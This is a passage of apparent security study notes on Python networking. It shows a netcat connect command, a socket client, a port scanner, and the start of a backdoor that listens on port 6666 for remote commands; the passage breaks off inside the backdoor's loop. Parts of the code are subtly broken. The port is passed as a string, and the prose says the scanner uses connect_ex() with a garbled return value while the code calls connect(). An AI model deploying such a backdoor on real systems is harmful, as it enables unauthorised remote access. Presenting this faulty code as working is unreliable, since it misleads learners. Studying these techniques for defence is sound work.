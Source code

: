 ```bash
nc <server_ip> <port>
```

```python
""" client.py """
import socket

SVR_ADDR = input("Type the server IP address: ")
SRV_PORT = input("Type the server port: ")

my_sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
my_sock.connect((SVR_ADDR, SRV_PORT))
print("Connection established")

message = input("Message to send: ")
my_sock.sendall(message.encode())
my_sock.close()
```

### Port Scanner

- Instead of using `connect()` we'll use `connect_ex()`, which returns - if the operation succeeded.
- This script will use the full 3-way handshake.

```python
import socket

target = input('Enter the IP address to scan: ')
portrange = input('Enter the port range to scan (ex 5-200): ')

lowport = int(portrange.split('-')[0])
highport = int(portrange.split('-')[1])

print('Scanning host ', target, 'from port', lowport, 'to port', highport)

for port in range(lowport, highport):
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  status = s.connect((target, port))
  if (status ==0):
    print('*** Port', port, ' - OPEN ***')
  else:
      print('*** Port', port, ' - Closed ***')
  s.close()
```

### Backdoor

The program simply binds itself to a NIC and a specific port (6666) and then waits for the client commands. Depending on the command received, it will return specific information to the client.

```python
import socket, platform, os

SRV_ADDR = ""
SRV_PORT = 6666

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind((SRV_ADDR, SRV_PORT))
s.listen(1)
connection, address = s.accept()

while 1:
  try:
    data = connection.recv(1024)
```